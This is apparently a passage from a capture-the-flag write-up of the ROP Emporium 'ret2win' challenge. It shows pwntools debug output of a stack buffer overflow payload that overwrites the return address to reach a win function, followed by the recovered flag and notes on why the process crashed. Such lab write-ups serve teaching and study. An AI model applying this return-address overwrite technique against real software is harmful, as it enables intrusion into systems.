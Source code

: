 ```
[DEBUG] PLT 0x400580 memset
[DEBUG] PLT 0x400590 read
[DEBUG] PLT 0x4005a0 setvbuf
[*] 0x0000: b'V\x07@\x00\x00\x00\x00\x00' b'V\x07@\x00\x00\x00\x00\x00'
[DEBUG] Received 0x100 bytes:
    b'ret2win by ROP Emporium\n'
    b'x86_64\n'
    b'\n'
    b'For my first trick, I will attempt to fit 56 bytes of user input into 32 bytes of stack buffer!\n'
    b'What could possibly go wrong?\n'
    b"You there, may I have your input please? And don't worry about null bytes, we're using read()!\n"
    b'\n'
    b'> '
[DEBUG] Sent 0x81 bytes:
    00000000  41 41 41 41  41 41 41 41  41 41 41 41  41 41 41 41  │AAAA│AAAA│AAAA│AAAA│
    *
    00000020  41 41 41 41  41 41 41 41  56 07 40 00  00 00 00 00  │AAAA│AAAA│V·@·│····│
    00000030  42 42 42 42  42 42 42 42  42 42 42 42  42 42 42 42  │BBBB│BBBB│BBBB│BBBB│
    *
    00000080  0a                                                  │·│
    00000081
[DEBUG] Received 0x28 bytes:
    b'Thank you!\n'
    b"Well done! Here's your flag:\n"
[DEBUG] Received 0x21 bytes:
    b'ROPE{a_placeholder_32byte_flag!}\n'
[*] Process './ret2win' stopped with exit code -11 (SIGSEGV) (pid 4895)
```

The contents of the flag were: `ROPE{a_placeholder_32byte_flag!}`.

The important lesson learned here is that the memory address in the RIP register didn't execute any instructions on the stack!
However, we ended up reusing code that already existed in the executable itself to capture the flag!

One last thing to notice is that the process crashed. This is because the stack didn't unwind properly and returned to a bogus address.
In practice, we normally want the process to exit gracefully by returning to the `exit()` or continue execution by jumping to the `main()` function.
We will see in future challenges how we can use gradually build upon what we learned in this basic challenge.
